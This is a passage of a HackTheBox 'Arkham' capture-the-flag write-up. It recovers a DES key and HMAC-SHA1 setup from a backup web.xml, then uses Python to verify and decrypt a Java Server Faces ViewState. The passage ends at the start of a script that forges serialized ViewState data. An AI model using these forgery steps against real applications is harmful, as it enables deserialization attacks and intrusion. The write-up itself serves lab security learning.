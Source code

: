 Luckily we have the server configuration files. In web.xml.bak I found the key used to encrypt the data, also the MAC algorithm which was hmac-sha1 and the used key. 

Let's decode the key

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2001:42:01.png)

So, the key used was `JsF9876-`

We can turn the payload in a byte stream

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2001:49:00.png)

`b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5EG\x0e]s@\xbd4\x82\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5k\xa5\xa1\x9cKW\xad6\xe5{;;g\xbb\x0eS\xa2\xf9P\xc8'`

I'm suggesting that the HMAC is stored in the last 20 bytes, it matches...

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2001:53:03.png)

```
from Crypto.Cipher import DES
import hashlib
import hmac
bytes = b'\xc0z4\xc2b\xee\xe5\xc7\x88\xb4\x88\xbe#\xb5\xe4\x12-F\x01\xbe!\xd7e\x99\xf3\xde)\x03\xe6x8~\xdbr\x8d\xa3\\L\xb5EG\x0e]s@\xbd4\x82\xefB\xad\x0e\xd9\xe0\x8c9\xb4\x98\xdc\xc0\xf6\xa1\xe3a\xea\xf1\xa3H\xd6\xef;\xb5k\xa5\xa1\x9cKW\xad6\xe5{;;g\xbb\x0eS\xa2\xf9P\xc8'
enc = bytes[:-20]
mac = bytes[-20:]
b = hmac.new(b'JsF9876-', enc, hashlib.sha1).digest()
b
b == mac
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2002:15:37.png)

Now we can decrypt the payload:

```
from Crypto.Cipher import DES
d = DES.new(b'JsF9876-', DES.MODE_ECB)
d.decrypt(enc)
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2002:16:27.png)

## 3 - Create a Python Script

Once we already know the key, the encryption type and we have the config file, let's create a python script to make it for us.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-14-HackTheBox-Arkham/2021-09-14-HackTheBox-Arkham%2002:30:25.png)

```py
#!/usr/bin/env python3
# Author: 0xdf - https://0xdf.gitlab.io/2019/08/10/htb-arkham.html#invalid-viewstate

from base64 import b64encode
from Crypto.Cipher import DES
from Crypto.Hash import SHA, HMAC
from urllib.parse import quote_plus as urlencode

bin_vs = b'\xac\xed\x00\x05ur\x00\x13[Ljava.lang.Object;\x90\xceX\x9f\x10s)l\x02\x00\x00xp\x00\x00\x00\x03t\x00\x011pt\x00\x12/userSubscribe.jsp\x02\x02'
vs = 'wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D'
```